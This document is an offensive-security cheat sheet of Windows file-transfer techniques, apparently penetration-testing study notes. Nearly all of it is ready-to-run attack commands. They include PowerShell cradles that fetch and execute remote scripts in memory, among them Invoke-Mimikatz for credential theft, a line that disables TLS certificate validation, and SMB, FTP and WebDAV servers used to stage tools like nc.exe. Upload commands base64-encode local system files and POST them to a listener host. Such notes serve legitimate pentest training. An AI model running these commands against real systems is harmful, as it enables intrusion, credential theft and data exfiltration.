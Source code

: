 # Windows File Transfers

***

```bash
iwr <LHOST>/<FILE> -o <FILE>
IEX(IWR http://<LHOST>/<FILE>) -UseBasicParsing
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
```

## PowerShell Web Downloads

| Method              | Description                                                                                   |
| ------------------- | --------------------------------------------------------------------------------------------- |
| OpenRead            | Returns the data from a resource as a Stream.                                                 |
| OpenReadAsync       | Returns the data from a resource, without blocking the calling thread.                        |
| DownloadData        | Downloads data from a resource and returns a Byte array.                                      |
| DownloadDataAsync   | Downloads data from a resource and returns a Byte array, without blocking the calling thread. |
| DownloadFile        | Downloads data from a resource to a local file.                                               |
| DownloadFileAsync   | Downloads data from a resource to a local file, without blocking the calling thread.          |
| DownloadString      | Downloads a String from a resource and returns a String.                                      |
| DownloadStringAsync | Downloads a String from a resource, without blocking the calling thread.                      |

```bash
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

```bash
(New-Object
Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```

### Fileless Method

Fileless attacks work by using some operating system functions to download the payload and execute it directly.

```bash
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```bash
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Common Errors bypass

```bash
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

```bash
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB Downloads

We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with _smbserver.py_ from Impacket and then use copy, move, PowerShell Copy-Item, or any other tool that allows connection to SMB.

### Create smb server

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare

sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

### Copy files from server

```bash
copy \\192.168.220.133\share\nc.exe
```

New versions of Windows block unauthenticated guest access

```bash
net use n: \\192.168.220.133\share /user:test test
copy n:\nc.exe
```

Note: You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.

## FTP Downloads

```bash
sudo python3 -m pyftpdlib --port 21
```

```bash
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

## Upload Operations

### Encode

```bash
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```

### Upload server

```bash
python3 -m uploadserver
```

```bash
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### Nc

```bash
nc -lvnp 8000
```

```bash
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

### WebDav

```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

```bash
dir \\192.168.49.128\DavWWWRoot

copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

Note: If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.

### FTP Uploads

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

```bash
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
